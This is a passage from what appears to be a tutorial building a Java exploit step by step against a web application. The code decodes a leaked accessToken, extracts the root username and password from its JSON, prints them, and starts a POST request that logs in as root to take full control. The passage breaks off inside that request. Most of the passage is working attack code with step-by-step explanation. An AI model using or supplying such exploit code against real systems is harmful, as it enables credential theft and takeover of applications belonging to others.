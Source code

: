 Here we created a `byte` array named `decodedBytes` that will decode the `accessToken` value and store inside it, After that define a string named `decodedAccessToken` that will store the bytes after converting it to a string and then will be printed out.

![](/assets/images/acb5f8074f259ba69950c679547c2f42)

&nbsp;

Here we can see see the decoded token and the 3rd step of the exploit done successfully.

## **Parse the decoded data from the accessToken & Retrive root account credentials**

It's time now for step 4 & 5. As the decoded data from the `accessToken` is `JSON` format. Then let's part it and Retrieve the `root` account credentials.

```
JSONObject decodedJsonObject = new JSONObject(decodedAccessToken);
String rootUsername = "";
String rootPassword = "";
if (decodedJsonObject.has("rootUsername") && decodedJsonObject.has("rootPassword")) {
    rootUsername = decodedJsonObject.getString("rootUsername");
    rootPassword = decodedJsonObject.getString("rootPassword");
    System.out.println("[*] Root username: " + rootUsername);
    System.out.println("[*] Root password: " + rootPassword);
} else {
    System.out.println("[-] Access token does not contain rootUsername and rootPassword keys.");
}
```

We created a `JSON` object named `decodedJsonObject` and assign the decoded `accessToken` value to it, Then define 2 strings with empty value for username and password we will retrive later. After that we made `if` condition to check if the `JSON` data has the `rootUsername` & `rootPassword` keys to Retrievethe credentials from it, If it's exist then it will assign the values to the string variables we defined early which are `rootUsername` & `rootPassword` after that it will print the values out, And if not found, It will print us a massege telling us it's not found.

![](/assets/images/7dfee9044aacbfe41207479c803b0cbd)

  
And here we can see our 4th & 5th steps done successfully.

## **Login with the** `root` account credentials and obtain a full privileges on the application

Now, we want to use the root credentials we obtained, To login into the application and Retrieve the `accessToken` will back with the response which is gonna be with full privileges on the application as the authentication done with the `root` account.

```
HttpURLConnection con3 = (HttpURLConnection) obj.openConnection();
            con3.setRequestMethod("POST");
            con3.setRequestProperty("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0");
            con3.setRequestProperty("Accept", "application/json, text/plain, */*");
            con3.setRequestProperty("Accept-Language", "en-US,en;q=0.5");
            con3.setRequestProperty("Accept-Encoding", "gzip, deflate");
            con3.setRequestProperty("Content-Type", "application/json;charset=utf-8");
            con3.setRequestProperty("Access-Token", "");
            con3.setRequestProperty("Origin", "http://" + host + ":" + port);
            con3.setRequestProperty("DNT", "1");
            con3.setRequestProperty("Connection", "close");
            con3.setRequestProperty("Referer", "http://" + host + ":" + port + "/");
            String requestBody3 = "{\"username\":\"" + rootUsername + "\",\"password\":\"" + rootPassword + "\"}";
            con3.setDoOutput(true);
            con3.getOutputStream().write(requestBody3.getBytes("UTF-8"));
```